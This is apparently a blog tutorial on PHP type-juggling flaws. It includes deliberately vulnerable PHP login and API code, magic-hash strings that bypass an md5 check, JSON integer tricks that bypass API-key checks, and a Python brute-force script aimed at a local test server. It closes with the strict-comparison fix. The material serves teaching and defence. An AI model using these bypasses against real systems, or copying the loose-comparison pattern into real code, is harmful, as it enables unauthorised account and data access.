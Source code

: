 ```yaml
---
layout: post
title: PHP Type-Juggling with Authentication Bypass and API Exploitation examples
excerpt: "PHP Type-Juggling explained with 2 different examples. The first one is Auth Bypass and the second one is exploiting a custom API"
categories: [tutorials]
comments: true
tags: [php, authentication bypass]
---
```


Did you know that a single missing character in your code can cause your authentication mechanism to be broken and give
attackers the ability to bypass it ? Or maybe exploit your API to get valuable information, or bypass your CSRF protection, or in some cases even gain RCE.
So today I'm going to explain these attacks, how to exploit them, and how to avoid them. 

#### What is Type-Juggling

In PHP there are 2 main comparison methods called `loose` and `strict` comparisons 

> Loose Comparison (==) - Doesn't check the type of the given data

> Strict Comparison (===) - Does check the type of the given data

This kind of vulnerability lies on `Loose Comparisons`, and it happens because loose comparisons don't check the type of the data and will return `TRUE` if a string is compared to `0`. Example: `"0" == 0` will result in `TRUE` but also `"alb0z" == 0` will result in `TRUE`<br>
The image below shows the difference between `Loose Comparisons` and `Strict Comparisons`

![Difference between loose and strict comparisons](/img/Type-Juggling-1.png)

Developers that are not aware of this type of attack will usually compare data through something similar to this

{% highlight php %}
if (md5($string) == $key) 
{% endhighlight %}

So in this case if the `$key` starts with `0e`, then we can simply give a string that productes an another md5 hash which starts with `0e` in the `$string` variable, which we may give it through GET or POST requests or other types of input 

Some such string are `QNKCDZO` and `240610708`

A small example

![Type juggling example](/img/Type-Juggling-2.png)

In the examples below I will go more into details on how to exploit it

#### Example 1: Authentication Bypass

First I wrote this simple PHP authentication mechanism which doesn't use a database so you can reproduce the attack simpler and faster

{% highlight php %}
<?php 

// In a real world environment this would be in a database
$users = [
  "alb0z" => ["username" => "alb0z", "password" => "2ac9cb7dc02b3c0083eb70898e549b63"], // Password1
  "james" => ["username" => "james", "password" => "0e556485729818849153460746667456"] // Qxs2daYW123
];

$msg = "";

if(isset($_POST['login'])) { // If a login request has been sent
  if(!array_key_exists($_POST['username'], $users)) { // If user doesn't exist
    $msg = "Invalid username or password!";
  }else {
    $username = $_POST['username'];
    $password = $_POST['password'];
    if(md5($password) == $users[$username]['password']) { // Check if user has given a correct password (This is where the bug is)
      // A real world app would redirect us to the main page and set cookies, but for testing purposes I'm going to leave with just a message
      $msg = "Successfully logged in!";
    } else {
      $msg = "Invalid username or password!";
    }

  }
}

if(!empty($msg)) { echo $msg; }
?>

<form method="post">
  <input type="text" name="username" placeholder="Username"><br><br>
  <input type="password" name="password" placeholder="Password"><br><br>
  <button type="submit" name="login" value="1">Login</button>
</form>
{% endhighlight %}

Now notice the line where the script compares the md5 hash of the password in POST request with the md5 hash of the password saved in the database (array in this case)

{% highlight php %}
if(md5($password) == $users[$username]['password'])
{% endhighlight %}

We have 2 users `alb0z` and `james`, in this case we can't bypass into `alb0z` because the hash must start with `0e` in order to bypass it, but we can still log into `james` account.

Note: If the application accepts `json` then we can bypass all the hashes and not only the ones starting with `0e`, that's because HTTP sends all the data in string format, but with `json` we can send integers too. More details will be shown in the next example.

I am going to use `php -S 127.0.0.1:8000` to serve the login page, however you can use Apache too.

Now it's time to exploit it. I'm using `curl` to send POST requests, but the same thing can be achieved through your browser.

First sending a normal request with an invalid password to confirm that we can't simply login with a random password

![Normal curl request](/img/Type-Juggling-3.png)

And now let's try it with a string which produces a md5 hash that start with `0e` in this case I'm going to use `NWWKITQ`. First confirm that the string's hash gives us the desired hash, and then make the POST request using `curl`

![Exploit curl request](/img/Type-Juggling-4.png)

Now as we see we successfully gained access to user `james` without knowing his real password.

#### Example 2: Get access to other users data through API

In this example I'm going to show you how to exploit the vulnerability even when the hashes don't start with `0e`. For this to work, `json` data has to be accepted by the application.
Again I'm going to write/use a simple script without a database which will act like a real world API.

{% highlight php %}
<?php

header("Content-Type: application/json; charset=UTF-8");

// In a real world environment this would be in a database
$users = [ 
  'alb0z' => ['username' => 'alb0z', 'api_key' => '7c2fceb815553c50fa1c2e3fe4a108fc71d966b199f660ed048c32dfe5978aff', 'secret_data' => 'This is secret and only alb0z should be able to access it',],
  'james' => ['username' => 'james', 'api_key' => 'e682a16f3973fa12ecf221baa5b1e169157c44ef301180077fe48eae69fb7594', 'secret_data' => 'This is secret and only james should be able to access it'],
  'carl' => ['username' => 'carl', 'api_key' => '399d65963db11309b2f6e4a59094686b12133274b47c867e52b277b68a0ef39b', 'secret_data' => 'This is secret and only carl should be able to access it']
];

if($_SERVER['REQUEST_METHOD'] != 'POST') { die("Only post requests are allowed"); } // allow only post requests

$data = json_decode(file_get_contents("php://input")); // get any input sent to us and json decode it

$return = [];

if(!property_exists($data, "username") or !property_exists($data, "api_key")) { // check if username and api_key are in json data we received
  $return['error'] = "username and api_key required";
  die(json_encode($return));
}

if(!array_key_exists($data->username, $users)) { // check if received username exist
  $return['error'] = "username not found";
  die(json_encode($return));
}

if($data->api_key != $users[$data->username]['api_key']) { // Check if the given api_key is valid for the given user
  $return['error'] = "api_key is not valid ";
  die(json_encode($return));
}else {
  $return = $users[$data->username];
  unset($return['api_key']);
  die(json_encode($return)); // if everything is okay, then print secret data 

}

?>
{% endhighlight %}

So basically what this script does is accept json data and return some "secret" data for the user. In a real world app the API could do anything from returning personal user information to sending messages, deleting posts or purchasing products in an e-commerce.

Now starting to analyze the code. First thing we should notice is this line that checks if the api_key is not valid, if it is not valid it stops the execution, but if it is then it returns the data. 

{% highlight php %}
if($data->api_key != $users[$data->username]['api_key'])
{% endhighlight %}

`!=` is the opposite of `==` but it still is a loose comparison, so it is still vulnerable.

We have 3 users on the API database (array in this case) `alb0z`,`james` and `carl`, and all three of them have private api keys 64 characters long.

As the API only accepts json, we need to send json through http, and I'm going to do that using `curl` and I will check both using a valid and an invalid key


![API curl check](/img/Type-Juggling-5.png)

Now as the valid api key start with 7, we can simply send an integer with 7 as value in api_key field and that will bypass the api key check.

![API curl exploit 1](/img/Type-Juggling-6.png)

Let's continue to get other users' data. As `james` api_key starts with a letter, we can use 0 as api_key to get his data

![API curl exploit 2](/img/Type-Juggling-7.png)

Time to get user `carl`, his api_key starts with 3, and we try to send a 3 as integer in api_key field, however that is not going to work in this case as his api_key has 3 numbers until the first letter (if the key starts with a number we need to set the api_key in json to first part of numbers of the original api_key ) `399d65963db11309b2f6e4a59094686b12133274b47c867e52b277b68a0ef39b` so we need to use 399 as the api_key to get access to his data.

But in a real world api we don't have access to the keys, so we may need to brute force the integer we need to use.

And I wrote this simple python script to do the brute forcing for us.

{% highlight python %}
#!/usr/bin/env python3
import requests


target = "http://localhost:8000/api.php"

valid_usernames = ['alb0z', 'james', 'carl'] # valid users you know
json_data = '{"username": "%s", "api_key": %s}' # json data to send

for user in valid_usernames:
    for i in range(0,10000): #brute force which api_key integers will work
        post_req = json_data % (user, i)
        req = requests.post(target, data=post_req) # send the request
        if "api_key is not valid" not in req.text: 
            print("Data for user: %s with %i as api_key: %s" % (user, i, req.text))
            break
{% endhighlight %}

And when run, it finds the numbers for us.

![API curl exploit 2](/img/Type-Juggling-8.png)

#### Where to find hashes which start with `0e` 
Hashes that start with `0e` are called magic hashes and you can find many types of them here <a href="https://github.com/spaze/hashes">https://github.com/spaze/hashes</a>


#### How to prevent it

These type of bugs are probably the easiest ones to fix, one needs to use strict comparisons instead of loose comparisons

so this 
{% highlight php %}
if (md5($string) == $key) 
{% endhighlight %}
needs to becomes this
{% highlight php %}
if (md5($string) === $key) 
{% endhighlight %}
<br>